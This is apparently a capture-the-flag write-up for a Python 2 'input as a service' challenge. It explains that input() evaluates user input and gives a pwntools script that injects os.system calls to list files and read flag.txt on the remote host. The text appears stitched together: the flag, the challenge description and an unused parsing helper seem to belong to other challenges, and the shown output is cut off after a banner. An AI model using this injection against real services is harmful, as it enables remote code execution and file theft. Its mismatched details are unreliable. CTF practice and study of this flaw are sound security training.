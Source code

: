 ```Flag = CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}```
> The Ministry of Galactic Defense now accepts human applicants for their specialised warrior unit, in exchange for their debt to be erased. We do not want to subject our people to this training and to be used as pawns in their little games. We need you to answer 500 of their questions to pass their test and take them down from the inside.

Upon connecting to `host:port` given we seem to be in a python2 shell interpreter:
```python
2.7.18 (default, Apr 20 2020, 20:30:41)
[GCC 9.3.0]
Do you sound like an alien?
>>>

abcd
Traceback (most recent call last):
  File "input_as_a_service.py", line 16, in <module>
    main()
  File "input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1, in <module>
NameError: name 'abcd' is not defined
```
The vulnerability lies in the `input()` function in python2 which is equivalent to `eval(raw_input())`, thus evaluating the user input as if it were python code. Hence we can invoke the `system()` function from `os` library to list contents of the folder to locate the flag and then read it.
```python
#!/usr/bin/python3

import sys
from pwn import *

def getresponse(remote_conn, repeat=False, byte=1024, sec=0.5):
    if repeat == False:
        res = remote_conn.recv(byte).decode('utf-8')
    else:
        res = remote_conn.recvrepeat(sec).decode('utf-8')
    print(res)
    return res

def sendrequest(remote_conn, req):
    req += '\n'
    print(req)
    remote_conn.send(req)

def get_expression(r, question):
    res = getresponse(r)
    expression = res.split(question)[1].strip().split('=')[0].replace(' ', '')
    return expression

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("[.] Usage: ./getflag.py <host> <port>")
        sys.exit(1)

    HOST, PORT = sys.argv[1], int(sys.argv[2])
    r = remote(HOST, PORT)
    res = getresponse(r)
    sendrequest(r, '__import__("os").system("ls")')
    res = getresponse(r)
    sendrequest(r, '__import__("os").system("cat flag.txt")')
    res = getresponse(r)
```
Executing the script we get the following output:
```python
2.7.18 (default, Apr 20 2020, 20:30:41)
```